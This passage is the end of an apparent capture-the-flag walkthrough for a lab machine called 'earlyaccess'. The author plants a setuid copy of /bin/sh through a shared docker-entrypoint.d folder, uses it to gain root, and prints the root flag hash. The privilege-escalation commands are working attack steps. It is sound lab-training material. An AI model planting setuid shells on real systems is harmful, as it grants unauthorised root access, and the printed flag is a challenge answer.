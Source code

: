 ```text
root@game-server:/# cd docker-entrypoint.d
root@game-server:/docker-entrypoint.d# cp /bin/sh . && chmod u+s sh
```

Finally back on earlyacces as drew we can escalate to root and grab the flag:

```text
drew@earlyaccess:/opt/docker-entrypoint.d$ ls -lsa
  4 -rwxr-xr-x 1 root root    100 Feb  6 13:23 node-server.sh
  4 -rwxr-xr-x 1 drew drew     42 Feb  6 13:23 pencer.sh
116 -rwsr-xr-x 1 root root 117208 Feb  6 13:23 sh

drew@earlyaccess:/opt/docker-entrypoint.d$ ./sh
#
# id
uid=1000(drew) gid=1000(drew) euid=0(root) groups=1000(drew)
#
# cat /root/root.txt
913303c08fc7d61d3b3a8e31db502e01
```

All done. For me that was a really hard box, but enjoyable and I learnt a few things on the way. Hopefully this walkthrough helped you too. See you next time.
